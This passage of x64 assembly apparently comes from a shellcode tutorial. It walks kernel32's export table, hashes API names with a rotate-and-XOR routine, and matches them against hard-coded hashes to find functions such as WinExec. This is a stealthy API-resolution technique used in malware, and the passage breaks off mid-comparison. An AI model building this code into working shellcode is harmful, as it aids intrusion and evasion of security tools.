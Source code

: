 ```nasm
; While that's happening, we hash each API with our hashing routine we discussed earlier
; And compare the hashed value with our predetermined hash values and see if there's a match!
;**********************************************************************

kernel32findfunction:             ; Loop over Export Address Table to find WinApi names
    jecxz FunctionNameNotFound    ; Loop around this function until we find WinExec
    xor ebx,ebx                   ; Zero EBX for use
    mov ebx, [r11+rcx*4]          ; EBX = RVA for first AddressOfName
    add rbx, r8                   ; RBX = Function name VMA / add kernel32 base address to RVA and get WinApi name
    dec rcx                       ; Decrement our loop by one, this goes from Z to A
    jmp hashinitiator
FunctionNameNotFound:
jmp continuation
FunctionNameFound:                ; Get function address from AddressOfFunctions
   inc ecx                        ; increase counter by 1 to account for decrement in loop
   xor r11, r11
   mov r11d, [rdx+0x1c]           ; AddressOfFunctions RVA
   add r11, r8                    ; AddressOfFunctions VMA in R11. Kernel32+RVA for addressoffunctions
   mov r15d, [r11+rcx*4]          ; Get the function RVA.
   add r15, r8                    ; Found the API! w00t!
   push r15                       ; Push the API we found to the stack for retrieval later.  We do this for all of them
   mov r11, r13
   dec ecx
   jmp kernel32findfunction

   ;********************************************************
   ; This is our hashing routine where we check if our hash
   ; matches the hash of the current API function
   ;********************************************************

   hashinitiator:
       xor eax, eax
       mov rsi, rbx
       xor rbx, rbx
   next_char:
       mov bl, [rsi]       ; load next char
       test bl, bl
       jz check_hash
       rol eax, 5          ; rotate hash left 5 bits
       xor eax, ebx        ; hash ^= char
       inc rsi
       jmp next_char

   ;********************************************************
   ; This is where we check the hash generated and stored in the EAX register
   ; with all of our pretermined hash values
   ; if there's a match that's found, we jump to FunctionNameFound
   ; and save the hash by pushing it to the stack
   ;********************************************************

   check_hash:
   cmp eax, 0x80778D35                ; Compare all bytes of eax with our pretermined hash values
   je FunctionNameFound               ; If match, function found
   cmp eax, 0x4A155ACA                
   je FunctionNameFound               
   cmp eax, 0x85B79578
   je FunctionNameFound
   cmp eax, 0xB68D8A33
   je FunctionNameFound
   cmp eax, 0xC7DEFE95
```